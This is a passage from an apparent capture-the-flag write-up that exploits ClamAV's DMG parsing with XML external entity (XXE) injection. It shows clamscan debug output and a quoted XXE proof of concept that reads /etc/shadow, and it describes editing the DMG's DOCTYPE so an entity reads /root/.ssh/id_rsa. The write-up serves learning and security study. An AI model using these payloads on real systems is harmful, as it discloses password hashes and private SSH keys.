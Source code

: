 

    sbrown@snoopy:~/scanfiles$ sudo clamscan --debug /home/sbrown/scanfiles/notepad.dmg 
    ...[snip]...
    LibClamAV debug: cli_scandmg: Matched blkx
    LibClamAV debug: dmg_decode_mish: startSector = 0 sectorCount = 1 dataOffset = 0 stripeCount = 2
    LibClamAV debug: dmg_decode_mish: startSector = 1 sectorCount = 63 dataOffset = 0 stripeCount = 2        
    LibClamAV debug: dmg_decode_mish: startSector = 64 sectorCount = 105184 dataOffset = 0 stripeCount = 168 
    LibClamAV debug: dmg_decode_mish: startSector = 105248 sectorCount = 2 dataOffset = 0 stripeCount = 2    
    LibClamAV debug: cli_scandmg: wanted blkx, text value is plst
    ...[snip]...



These stand out because they are from the `cli_scandmg` module. The
first one says "Matched blkx", which was one of the two fields I noted
in the XML. The last one says "wanted lbkx, text value is plst". It's
not immediately clear to me what this means, but I am getting the value
of a key!

#### Modify DMG

I'll copy the file to `notepadxxe.dmg`, and open it in a hexeditor (like
`ghex`). This XML starts like:



    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">



An [XXE POC for file
disclosure](https://github.com/payloadbox/xxe-injection-payload-list#xxe-file-disclosure)
looks like this:



    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    <userInfo>
     <firstName>John</firstName>
     <lastName>&ent;</lastName>
    </userInfo>



I'll edit the `DOCTYPE` in the DMG to create an entity that references
`/root/.ssh/id_rsa`:

![](/img/image-20230510172620920.png)

I've used spaces to pad out the extra stuff. I am using a variable `df`
such that when I reference it later as `&df;`, it takes four characters,
the same length as `plst`. Down the file a bit, I'll find the `plst` key
and modify it:

